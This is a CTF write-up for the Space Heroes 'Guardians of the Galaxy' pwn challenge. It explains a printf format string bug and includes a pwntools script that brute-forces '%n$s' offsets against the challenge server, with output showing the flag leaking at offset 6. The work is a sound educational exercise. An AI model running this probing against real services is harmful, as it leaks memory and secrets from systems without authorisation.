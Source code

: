 ```yaml
---
title: "shctf/pwn: Guardians of the Galaxy"
date: 2022-04-06 10:33:54
tags:
- ctf
- shctf
- pwn
description: "Learn how to brute force a format string attack on ELF binaries! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Guardians of the Galaxy\"."
permalink: ctfs/shctf/pwn/guardians-of-the-galaxy/
thumbnail: /asset/banner/banner-guardians.png
---
```


<style>
    .box {
        border: 1px solid rgba(100, 100, 100, .5);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<p class="box">
Ronan the Accuser has the Power Stone. Can Starlord find a successful distraction format? <code>nc 0.cloud.chals.io 12690</code><br>
<b>Author</b>: GlitchArchetype<br>
<b>Files</b>: <a href="https://github.com/WhileSEC/shctf/blob/main/challenges/pwn/guardians-of-the-galaxy/files/guardians">guardians</a>
</p>

Let's look at what happens when you run that binary given to us.

```text
$ ./guardians 
Error, please message admins with 'infinity_error'.
```

This error is because the binary is probably trying to reference a `flag.txt` within its directory that doesn't exist. Let's create one and run it again:

```text
$ touch flag.txt && echo "FLAGHERE" > flag.txt
$ ./guardians
Does Quill manage to win the dance battle?
```

There, we got it to work locally. Since we know that this is problem a format string vulnerability from the "find a successful distraction format" part of the description, let's assume that the vulnerability is it writing our input to the stack with `printf()`. We will need to work our way up the stack with the format `%n$s`, where `n` is the decimal index of the argument you want, and `s` is the `printf()` specifier for a **string of characters**. I wrote this Python3/pwntools script here to achieve this loop:

```py
from pwn import *

for i in range(0, 100):
        p = remote('0.cloud.chals.io', 12690)  
        log.info(f"Trying offset {i}...")
        p.sendline(bytes(('%' + str(i) + '$s'), encoding='utf-8'))

        output = p.recvS()
        if 'shctf' in output:
                log.success(output)
                break
        p.close()
```

As you can see, it will send a UTF-8 encoded format string, with `str(i)` being the looping variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:

```text
$ python3 exp.py
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 0...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 1...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 2...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 3...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 4...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 5...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 6...
[+] Does Quill manage to win the dance battle?
    
    Oh no, Ronano has seen through the distraction!
    shctf{im_distracting_you}
```

<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
